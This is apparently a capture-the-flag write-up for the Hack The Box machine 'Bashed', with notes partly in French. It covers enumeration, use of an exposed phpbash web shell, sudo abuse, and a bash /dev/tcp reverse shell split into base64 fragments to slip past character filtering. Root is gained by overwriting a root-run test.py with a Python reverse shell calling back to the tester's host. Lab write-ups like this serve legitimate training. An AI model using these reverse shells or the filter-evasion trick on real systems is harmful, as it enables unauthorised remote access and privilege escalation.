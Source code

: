 # HTB - Bashed 10.10.10.68



- Linux 4.4.0-62-generic #83-Ubuntu SMP UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.04.2 LTS

- Find /dev/ directory and use /dev/phpshell.php
- Upgrade to nc shell
- Get user
- use sudo to get another user
- test.py owned by new user is run by root...
- Get root


## Nmap
```
# Nmap 7.70 scan initiated Sun Sep 15 14:24:20 2019 as: nmap -sC -sV -A -o enum/nmap_10.10.10.68_recon.txt 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.043s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Aggressive OS guesses: Linux 3.12 (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 3.2 - 4.9 (94%), Linux 3.8 - 3.11 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 4.8 (94%), Linux 4.9 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 113/tcp)
HOP RTT      ADDRESS
1   44.20 ms 10.10.14.1
2   44.23 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 14:24:37 2019 -- 1 IP address (1 host up) scanned in 18.14 seconds
```

HTTP only server

## 80: 

![](images/http:__10.10.10.68:80.png)
The site is used to developp phpbash


## dirb -> http://10.10.10.68/dev

Directory is browsable...
Found http://10.10.10.68/dev

## http://10.10.10.68/dev/phpbash.php

```
www-data@bashed
:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

# ls -alR /home

/home:
total 16
drwxr-xr-x 4 root root 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 scriptmanager

/home/arrexel:
total 36
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
ls: cannot open directory '/home/arrexel/.cache': Permission denied

/home/arrexel/.nano:
total 8
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 ..

/home/scriptmanager:
total 28
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 scriptmanager scriptmanager 2 Dec 4 2017 .bash_history
-rw-r--r-- 1 scriptmanager scriptmanager 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec 4 2017 .bashrc
drwxr-xr-x 2 scriptmanager scriptmanager 4096 Dec 4 2017 .nano
-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec 4 2017 .profile

/home/scriptmanager/.nano:
total 8
drwxr-xr-x 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 ..
www-data@bashed
:/var/www/html/dev# cat /home/arrexel/user.txt

XXXXXXXXXXXXXXXXXXXXXXXX
```

## System

```

www-data@bashed
:/var/www/html/dev# uname -a

Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed # cat /etc/issue
Ubuntu 16.04.2 LTS \n \l


```


## Escalation

```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

:/var/www/html/dev# sudo -S -u scriptmanager whoami

scriptmanager
```


## Shell
```
echo "bash -i >& /dev/tcp/10.10.14.32/4444 0>&1">/tmp/a

```
Les caractères & et + sont filtrés
Le + met le bazard dans le text retourné.
Une injection regexp ??

```
:/var/www/html/dev# print '+'

Unescaped left brace in regex is deprecated, passed through in regex; marked by <-- HERE in m/%{ <-- HERE (.*?)}/ at /usr/bin/print line 528.
```


On encode 'echo "bash -i >& /dev/tcp/10.10.14.32/4444 0>&1">/tmp/a' en base64
print 'echo "bash -i >& /dev/tcp/10.10.14.32/4444 0>&1">/tmp/a' > base64
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMzIgNDQ0NCA+L3RtcC9mCg==

Les + doivent être remplacés...
```
printf '+' |base64
Kw==

printf 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI'>/tmp/a
printf "Kw==" | base64 -d >>/tmp/a
printf 'JjF8bmMgMTAuMTAuMTQuMzIgNDQ0NCA' >>/tmp/a
printf "Kw==" | base64 -d >>/tmp/a
printf 'L3RtcC9mCg==' >>/tmp/a


printf 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI'>/tmp/a; printf "Kw==" | base64 -d >>/tmp/a; printf 'JjF8bmMgMTAuMTAuMTQuMzIgNDQ0NCA' >>/tmp/a; printf "Kw==" | base64 -d >>/tmp/a; printf 'L3RtcC9mCg==' >>/tmp/a

cat /tmp/a | base64 -d >/tmp/b

chmod 777 /tmp/b   car le a+x est filtré...
/tmp/b
```

On recupère le shell
```
# nc -lvp 4444
listening on [any] 4444 ...

10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.68] 40118
/bin/sh: 0: can't access tty; job control turned off
$ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
C'est à peine mieux, mais au moins, c'est pas filté :)


```
# sudo -S -u scriptmanager /bin/bash

$ ls -al /
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
....
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Sep 15 06:26 scripts

ls -al
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 Sep 15 06:26 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Sep 15 06:27 test.txt
-rw-r--r--  1 root          root            12 Sep 15 06:25 test.txt.old


```

test.py is regularly executed by root...

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

Get reverse shell
```
nc -lvp 4445
listening on [any] 4445 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.68] 40970
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```

